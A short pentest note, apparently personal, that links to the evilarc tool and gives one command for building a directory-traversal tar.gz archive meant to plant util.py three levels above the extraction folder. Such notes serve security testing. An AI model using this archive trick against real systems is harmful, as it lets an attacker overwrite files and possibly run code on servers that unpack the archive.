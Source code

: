 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/ptoomey3/evilarc


Create a directory traversal archive 
````bash
./evilarc.py -f mal.tar.gz -d 3 -o unix util.py
````

